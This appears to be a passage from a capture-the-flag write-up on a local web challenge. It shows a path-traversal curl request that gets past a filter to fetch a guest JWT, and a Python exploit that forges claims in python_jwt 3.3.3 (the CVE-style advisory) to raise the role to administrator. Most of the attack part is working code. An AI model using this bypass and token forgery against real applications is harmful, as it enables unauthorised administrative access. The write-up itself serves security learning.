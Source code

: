 I bypassed the filter rule with the simple listing: 
```
curl http://localhost:1337/../api/v1/get_ticket -i --path-as-is
```

The above returned me with the `JWT` token needed. 
```
eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxNDc1MTksImlhdCI6MTcxMDE0MzkxOSwianRpIjoiYmQtcW5GYnBqcUhpbEFSeXN5aGwyUSIsIm5iZiI6MTcxMDE0MzkxOSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.s569WtLjeq3NQSI9GXVDfTYJSUrxdEGtCBnxjHnwEa6UWwS6RNfLF-qMjvAc-GiqHzG1Wx1SQd1tsqIqnIF6zz9zXFQaSimFgnYE0HvUwaI_XhzBJA-ZxmrgetgJjbOhKBOopKIXmtUt-LPE2tsB3yr6SJe-C2RvFlTzrgQMDrOtRBJJiXfYne1QI4nnXUFY0XsNXCpKQIe6ELHNmeE-F6Fj5s1AJwUEBwWJNVnmw_s5mVbL1hvIE54e2mJg5VK8PfCLXx4u-ghVRgGDRkUza4UpgM8nrSmTj5d40iREyz9M6PDvi0TFhuVvlQStrpz0UId-uyL4-Vwp9UnTOSNBRA
```

Now, checking the requirements of project, i found `python_jwt==3.3.3`:
```
uwsgi
Flask
requests
python_jwt==3.3.3
```

Heading to google, i found a security advisory of the project on Github: https://github.com/davedoesdev/python-jwt/security/advisories/GHSA-5p8v-58qm-c7fp

It seems as if i can modify the claims of the JWT for versions `<3.3.4`

![image](https://github.com/hash3liZer/khatta/assets/29171692/758bd543-0d9a-4543-a1a1-7d7f43cb4fb8)

In one of the commits of the repo of fixing this issue i found a code that i the modified to write my own exploit. Make sure to replace the token in the `create` method:
```python
from datetime import timedelta
from json import loads, dumps
import python_jwt as jwt
from pyvows import Vows, expect
from jwcrypto.common import base64url_decode, base64url_encode
from pprint import pprint

class ForgedClaims:
    def create(self):
        """ Generate token """
        # payload = {'sub': 'alice'}
        token = "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxNDc1MTksImlhdCI6MTcxMDE0MzkxOSwianRpIjoiYmQtcW5GYnBqcUhpbEFSeXN5aGwyUSIsIm5iZiI6MTcxMDE0MzkxOSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.s569WtLjeq3NQSI9GXVDfTYJSUrxdEGtCBnxjHnwEa6UWwS6RNfLF-qMjvAc-GiqHzG1Wx1SQd1tsqIqnIF6zz9zXFQaSimFgnYE0HvUwaI_XhzBJA-ZxmrgetgJjbOhKBOopKIXmtUt-LPE2tsB3yr6SJe-C2RvFlTzrgQMDrOtRBJJiXfYne1QI4nnXUFY0XsNXCpKQIe6ELHNmeE-F6Fj5s1AJwUEBwWJNVnmw_s5mVbL1hvIE54e2mJg5VK8PfCLXx4u-ghVRgGDRkUza4UpgM8nrSmTj5d40iREyz9M6PDvi0TFhuVvlQStrpz0UId-uyL4-Vwp9UnTOSNBRA"
        return token

    def topic(self, topic):
        """ Use mix of JSON and compact format to insert forged claims including long expiration """
        [header, payload, signature] = topic.split('.')
        parsed_payload = loads(base64url_decode(payload))
        print(parsed_payload)
        parsed_payload['role'] = 'administrator'
        parsed_payload['user'] = 'admin_user'
        print(parsed_payload)
        # parsed_payload['exp'] = 2000000000
        fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
        return '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

claime__ = ForgedClaims()
```